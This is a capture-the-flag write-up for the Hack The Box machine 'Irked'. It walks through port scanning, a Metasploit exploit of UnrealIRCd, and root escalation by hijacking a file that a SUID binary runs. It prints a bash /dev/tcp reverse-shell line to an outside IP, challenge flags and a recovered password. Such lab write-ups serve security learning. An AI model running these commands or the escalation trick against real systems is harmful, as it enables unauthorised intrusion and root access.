


Irked Writeup
=============

Irked was a pretty easy box involving the exploitation of unrealirc, stegonography, and exploiting a suid to get root. At least that's the intended way. The way that I did it involves skipping the steg and going straight to exploiting the suid, which still gets you root.

This box was very educational for me, being the first time I've ever done privesc using a suid vulnerability (albeit a basic one).

Also, this is my first writeup with images!

Enumeration
-----------

### Nmap Scan

```
# Nmap 7.70 scan initiated Sun Apr 14 21:10:13 2019 as: nmap -A -p- -o nmap_full 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.18s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          50396/udp  status
|_  100024  1          52206/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 22:07:01 2019 -- 1 IP address (1 host up) scanned in 3407.11 seconds
```

This has a couple interesting services like IRC and rpc. Also has the more commnon services HTTP and ssh.

### Gobuster

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
```

Browsing to port 80 doesn't reveal anything too interesting. The homepage has an image an a message saying that IRC is almost ready. Gobuster on HTTP doesn't reveal anything too interesting.



Getting Root before User ?!
---------------------------

Connecting to the IRC server reveals that it's running UnrealIRC 3.2.8.1. 



Running `searchsploit` on that version reveals that there is a metasploit module that gives RCE. Running metasploit against irc gives us a shell back as the user `ircd`. The shell that were have, however, is extremely limited. A quick `python -c 'import pty;pty.spawn("/bin/bash")'` gives us a better looking shell.

After reading `/etc/passwd`, it appears that there is another user on this machine, `djmardov`. Navigating to his home directory shows that `user.txt` is in his `Documents` folder. We don't enough permissions to read it however.

Further enumeration doesn't reveal anything too interesting, i.e: no vulnerable services, everything is up-to-date. I narrow down my options for privesc to finding a vulnerable suid.

### Exploit a vulnerable SUID

Running the following command gives us a couple interesting binaries to look for:

`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

```
-rwsr-xr-- 1 root messagebus 362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 13816 Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 13564 Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
-rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4
-rwsr-xr-- 1 root dip 338948 Apr 14  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 43576 May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 root mail 96192 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 78072 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 38740 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18072 Sep  8  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 9468 Apr  1  2014 /usr/bin/X
-rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
-rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 34208 Jan 21  2016 /bin/fusermount
-rwsr-xr-x 1 root root 161584 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 26344 Mar 29  2015 /bin/umount
```

Most of these binaries are pretty standard, with no simple way of getting a bypass. However, `viewuser` looks like the only promising one of the bunch. Running it gives us the following output:

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
sh: 1: /tmp/listusers: not found
```

Looks like it's reading a `/tmp/listusers` which doesn't exist yet. Lets try creating it and running `viewuser` again.

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
sh: 1: /tmp/listusers: Permission denied
```

Now we're getting a permission denied. Let's see if `chmod 777 listusers` fixes that.

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
```

No more errors. Since viewusers seems to be running the command `who`, lets see if we can put some of our own commands to execute inside `listusers`.

```
echo '#!/bin/bash' > listusers
echo 'id' >> listusers
```

Running viewusers then gives us:

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

Looks like we're running as root! We could easily read the root flag from here, but that's lame. How about a root shell?

```
echo '#!/bin/bash' > listusers
echo 'bash -i >& /dev/tcp/10.10.14.245/4445 0>&1' >> listusers
```

```
$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.10.14.100] from (UNKNOWN) [10.10.10.117] 53753
root@irked:/tmp# id
id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

Nice! Root shell. Now we just have to navigate to the `/root/` and read `root.txt` for the root flag.

`8d8e9e8be64654b6dccc3bff4522daf3`

Now we can also read the user flag as well in `/home/djmardov/Documents/user.txt`

`4a66a78b12dc0e661a59d3f5c0267a8e`

Doing it the intended way
-------------------------

Of course, the intended way involves an extra step with steganography, then into suid exploitation.

### Stegonagraphy

If we rewind back to when we were user `ircd` and tried to read `user.txt` inside `/home/djmardov/Documents`, there was actually a hidden file `.backup` which had the following string inside:

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

If we recall the image on http:


Looks like a potential candidate for `steghide`. Lets see if we can extract anything from the image using our new password.

`steghide extract -sf irked.jpg -p UpupDOWNdownLRlrBAbaSSss`

```
wrote extracted data to "pass.txt".
```

Reading `pass.txt` gives us:

```
Kab6h+m+bbp2J:HG
```

Probably the user password for `djmardov`. Looks like we can also ssh into the machine and read `user.txt`.

### SUID exploitation

From here it's the same suid exploitation from before.
